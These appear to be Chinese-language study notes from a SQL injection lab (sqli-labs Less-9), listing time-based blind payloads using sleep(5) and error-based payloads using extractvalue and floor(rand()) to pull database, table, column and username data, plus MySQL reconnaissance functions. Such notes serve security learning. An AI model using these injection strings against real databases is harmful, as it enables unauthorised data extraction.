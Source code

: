   为 ascii 值
- admin'and If(ascii(substr(database(),2,1))=115,1,sleep(5))#
  时间注入 正确的话 直接登录，否则延迟5秒，得出 数据库名为 security
  'and If(ascii(substr((select table_name from information_schema.tables where table_schema='security' limit 0,1),1,1))=101,1,sleep(5))-- -
  猜测第一个数据表的第一位是 e...依次类推，得到 emai
  limit 0,1 从0的位置开始 第1行 是emai  limit 1,1 从1的位置开始 第1行 是 ？？
  猜测 users 表的列
  http://127.0.0.1/sqllib/Less-9/?id=1'and If(ascii(substr((select column_name from information
  _schema.columns where table_name='users' limit 0,1),1,1))=105,1,sleep(5))--+
  猜测 username 的值
  http://127.0.0.1/sqllib/Less-9/?id=1'and If(ascii(substr((select username from users limit 0,1), 1,1))=68,1,sleep(5))-- -
  猜第2位
  'and If(ascii(substr((select username from users limit 0,1), 2,1))=117,1,sleep(5))-- -
  是Dump
  SELECT CONCAT(id, '，', name) AS con FROM info LIMIT 1
  concat 某几列
  limit1    行1
  以上为  查询第一行的  id 列 和name列，中间用,号隔开
- 报 错 注 入
  1' union Select 1,count(*),concat(0x3a,0x3a,(select user()),0x3a,0x3a,floor(rand(0)*2))a from information_schema.columns group by a--+
- uname=admin"and extractvalue(1,concat(0x7e,(select @@version),0x7e))#&passwd=1&sub
  If(ascii(substr(database(),1,1))>115,0,sleep(5))%23
- select table_name from information_schema.tables where table_schema='security' limit 0,1
  table_name   
  MYSQL 里面所有的表
  information_schema.tables
- 系统函数
  介绍几个常用函数：
- 1. version()——MySQL 版本
  2. user()——数据库用户名
  3. database()——数据库名
  4. @@datadir——数据库路径
  5. @@version_compile_os——操作系统版本